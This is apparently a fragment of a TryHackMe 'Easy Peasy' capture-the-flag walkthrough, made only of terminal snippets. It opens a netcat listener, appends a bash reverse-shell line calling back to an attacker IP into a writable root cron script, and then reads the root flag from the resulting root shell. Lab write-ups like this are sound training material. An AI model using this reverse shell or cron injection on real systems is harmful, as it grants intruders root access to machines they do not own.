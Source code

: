 ```
bibo318@parrot:~/CTFs/tryhackme/Easy Peasy$ nc -nlvp 9001
```

```
boring@kral4-PC:/var/www$ echo "bash -i >& /dev/tcp/10.8.106.222/9001 0>&1" >> .mysecretcronjob.sh
```

```
root@kral4-PC:~# ls -la
ls -la
total 40
drwx------  5 root root 4096 Jun 15 12:40 .
drwxr-xr-x 23 root root 4096 Jun 15 01:08 ..
-rw-------  1 root root    2 Oct  5 03:45 .bash_history
-rw-r--r--  1 root root 3136 Jun 15 12:40 .bashrc
drwx------  2 root root 4096 Jun 13 15:40 .cache
drwx------  3 root root 4096 Jun 13 15:40 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13 15:44 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15 01:01 .root.txt
-rw-r--r--  1 root root   66 Jun 14 21:48 .selected_editor
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
root@kral4-PC:~#
```
